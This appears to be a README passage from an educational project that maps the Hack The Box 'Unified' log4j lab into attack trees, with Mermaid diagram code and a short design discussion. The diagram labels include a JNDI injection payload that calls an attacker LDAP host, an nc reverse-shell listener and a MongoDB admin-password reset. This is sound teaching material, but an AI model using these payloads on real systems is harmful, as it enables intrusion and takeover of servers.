



We first tried to sketch attack trees using a scripted language called Mermaid (https://mermaid.js.org/). 
For example, we considered an exercise entitled ``Unified'' mimicking an exploit of the recent log4j vulnerability from HTB Starting Point 
https://app.hackthebox.com/starting-point/#unified. 

We estimated that it is better to split the exercise into three attack trees: one for scanning and two others for zooming in on the initial exploit 
and the privilege escalation later. 
<table border="2px"> 
  <tr>
    <td>
      <figure>
        Unified</b>" width="200"/>    
      <figcaption>Scan and Vulnerability Detection for the Machine <b>Unified</b></figcaption>
      </figure>
    </td>
    <td>
     <figure>
      Unified</b>" width="200"/> 
      <figcaption>Privilege Escalation in the Machine <b>Unified</b></figcaption>
    </figure>
    </td>
  </tr>
 <tr>
   <td colspan="2">
<figure>
    Unified</b>" width="400"/> &nbsp;
  <figcaption>Exploiting the log4j Vulnerability in the Machine <b>Unified</b></figcaption>
</figure>
     </td>
</tr>
 </table>


The code for generating the three tree figures is shown here: 
```
<div class="mermaid">
graph LR
  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
  6 --> 7["check site settings <br/> get root ssh password"]
  3 --> 5
  end
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  subgraph Scan
  A[nmap] --> B[8443 <br/> UniFi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh] 
  end
</div>
```


This approach has the advantage that trees are formalized in a written form and automatically generated. The structured format makes it easy to feed the trees to an AI engine, however, 
we noticed the following drawbacks: 

- The mermaid building blocks are not flexible. Therefore, we need to manage the space better than being automatically controlled by the tool. 
- We can not have many types of nodes. The shape and color of the block can visually encode information that might help the learner. 

We decided to go for a more appealing visual approach in the first place and differentiate its formalism to future work. We propose to build attack trees based on different block types. Currently, our model comprises 18 types of blocks, and we claim to be incomplete, of course. For example, we did not consider a multi-machine exercise, so we do not have a block type for pivoting. 
